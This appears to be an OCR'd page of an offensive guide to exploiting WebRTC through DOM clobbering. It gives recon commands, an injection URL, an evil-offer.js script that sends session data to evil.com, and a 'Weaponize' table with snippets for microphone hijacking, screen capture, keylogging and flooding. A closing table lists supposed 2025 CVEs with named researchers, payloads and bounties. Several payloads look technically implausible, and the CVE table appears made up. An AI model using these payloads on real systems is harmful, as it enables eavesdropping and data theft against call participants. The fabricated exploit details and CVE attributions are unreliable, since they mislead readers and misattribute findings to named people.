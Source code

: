 
## 🛠️ STEP-BY-STEP EXPLOITATION

### **Phase 1: Recon (45s)**
```bash
# Scan for WebRTC endpoints
curl -s https://target.com | grep -i "RTCPeerConnection\|getUserMedia\|createOffer"
# Or Burp: Match SDP strings in WebSocket traffic
```

### **Phase 2: Clobber & Offer (Payload Injection)**
**URL**: `https://target.com/#<video id=RTCPeerConnection name=createOffer src=javascript:fetch('/steal?ip='+RTCPeerConnection.localDescription.sdp)>`

**evil-offer.js** (Host on Glitch/Vercel):
```javascript
// Malicious SDP for backdoor
const pc = new RTCPeerConnection({iceServers: [{urls: 'stun:evil.com:3478'}]});
pc.createOffer().then(offer => {
  pc.setLocalDescription(offer);
  fetch('https://evil.com/exfil?'+btoa(pc.localDescription.sdp)); // Leak SDP
});
```

### **Phase 3: Verify & Persist**
**Chrome DevTools**:
```
Network → WS (Signaling) → SDP Offer: type=offer, candidate: evil.com IP
```
**Persistence**: SDP injected into ongoing calls; survives reload via sessionStorage

### **Phase 4: Weaponize**
| Goal | evil.js Snippet | Exfil Target |
|------|-----------------|--------------|
| **IP Leak** | `pc.addIceCandidate({candidate: 'evil.com'})` | All peers |
| **Mic Hijack** | `navigator.mediaDevices.getUserMedia({audio:true}).then(s => pc.addTrack(s))` | Audio streams |
| **Screen Share** | `pc.addTransceiver('video', {direction: 'sendonly'})` | Desktop capture |
| **Keylog via Channel** | `channel.onmessage = e => beacon(e.data)` | Chat exfil |
| **DoS Amp** | `pc.createDataChannel('flood').send('A'.repeat(1e6))` | Bandwidth exhaustion |

---

## 🎯 REAL-WORLD CVEs (2025)

| Date | Target | Researcher | Payload | Impact | Bounty |
|------|--------|------------|---------|--------|--------|
| **Mar 2025** | **Zoom** | @albinowax | `<form id=RTCPeerConnection><input name=createDataChannel value=flood></form>` | VC takeover | $15,000 |
| **Jun 2025** | **Google Meet** | @terjanq | `<img id=getUserMedia name=constraints value={audio:true}>` | Mic leak | $18,500 |
| **Aug 2025** | **Discord** | USENIX Team | `<svg id=RTCSessionDescription><text name=sdp>evil-offer</text></svg>` | IP exfil | $20,000 |
| **Oct 2025** | **Microsoft Teams** | @kevin_mizu | `<input id=addIceCandidate name=candidate value=evil-stun>` | NAT bypass | $22,000 |
